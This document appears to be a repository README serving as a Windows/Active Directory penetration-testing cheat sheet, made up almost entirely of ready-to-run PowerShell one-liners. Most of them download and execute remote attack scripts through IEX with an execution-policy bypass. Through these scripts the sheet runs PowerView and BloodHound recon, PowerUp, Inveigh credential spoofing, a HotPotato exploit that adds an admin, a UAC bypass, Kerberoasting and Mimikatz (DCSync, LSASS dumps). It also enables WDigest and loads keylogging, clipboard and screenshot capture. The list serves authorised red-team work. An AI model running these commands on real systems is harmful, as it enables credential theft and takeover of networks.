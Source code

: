 ## Table of Contents

- [Domain Recon](#domain\recon)
  - [ShareFinder - Look for shares on network and check access under current user context & Log to file](#ShareFinder\-\Look\for\shares\on\network\and\check\access\under\current\user\context\&\Log\to\file)
  - [Import PowerView Module](#Import\PowerView\Module)
  - [Invoke-BloodHound for domain recon](#Invoke-BloodHound\for\domain\recon)
  - [ADRecon script to generate XLSX file of domain properties](#ADRecon\script\to\generate\XLSX\file\of\domain\properties)
- [Priv Esc](#priv\esc)
  - [PowerUp script](#PowerUp\script)
  - [cPasswords in sysvol](#cPasswords\in\sysvol)
  - [Inveigh](#Inveigh)
    - [Start inveigh using Basic Auth - logging to file](#Start\inveigh\using\Basic\Auth\-\logging\to\file)
    - [Start inveigh in silent mode (no popups)](#Start\inveigh\in\silent\mode\(no\popups))
  - [Invoke-HotPotato Exploit](#Invoke-HotPotato\Exploit)
  - [Bypass UAC and launch PowerShell window as admin](#Bypass\UAC\and\launch\PowerShell\window\as\admin)
  - [Invoke-Kerberoast with Hashcat Output](#Invoke-Kerberoast\with\Hashcat\Output)
- [Reg Keys](#reg\keys)
  - [Enable Wdigest](#Enable\Wdigest)
  - [Check always install elevated](#Check\always\install\elevated)
- [Mimikatz](#mimikatz)
  - [Invoke Mimikatz](#Invoke\Mimikatz)
  - [Import Mimikatz Module](#Import\Mimikatz\Module)
  - [Perform DcSync attack](#Perform\DcSync\attack)
  - [Invoke-MassMimikatz](#Invoke-MassMimikatz)
  - [Manual Procdump for offline mimikatz](#Manual\Procdump\for\offline\mimikatz)
- [Useful Scripts/Commands](#useful\scripts/commands)
  - [Use Windows Debug api to pause live processes](#Use\Windows\Debug\api\to\pause\live\processes)
  - [Import Powersploits invoke-keystrokes](#Import\Powersploits\invoke-keystrokes)
  - [Import Empire's Get-ClipboardContents](#Import\Empire's\Get-ClipboardContents)
  - [Import Get-TimedScreenshot](#Import\Get-TimedScreenshot)
- [Useful Links](#useful\links)
  - [Nmap](#Nmap)
  - [EyeWitness Binary](#EyeWitness\Binary)
  - [Sys InternalTools](#Sys\InternalTools)
  - [List of Binaries that can be used for living off the land techniques](#List\of\Binaries\that\can\be\used\for\living\off\the\land\techniques)
- [Installing CrackMapexec (Linux/Windows)](#installing\crackmapexec\(linux/windows))


```Powershell
# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```
## Import PowerView Module
```

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

## Invoke-BloodHound for domain recon
```

powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

## ADRecon script to generate XLSX file of domain properties
```powershell

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"
```


# Priv Esc
## PowerUp script
```powershell

powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```
## cPasswords in sysvol
```powershell

findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
## Inveigh
### Start inveigh using Basic Auth - logging to file
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"
```
### Start inveigh in silent mode (no popups)
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"
```

## Invoke-HotPotato Exploit
```powershell

powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"
```

## Bypass UAC and launch PowerShell window as admin
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

## Invoke-Kerberoast with Hashcat Output
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
```
# Reg Keys
## Enable Wdigest
```python

reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f
```
## Check always install elevated
```powershell

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

# Mimikatz
## Invoke Mimikatz
```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"

## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS
```

# Installing CrackMapexec (Linux/Windows)
```bash
apt-get install -y libssl-dev libffi-dev python-dev-is-python3 build-essential

git clone https://github.com/mpgn/CrackMapExec

cd CrackMapExec

poetry install

poetry run crackmapexec
```




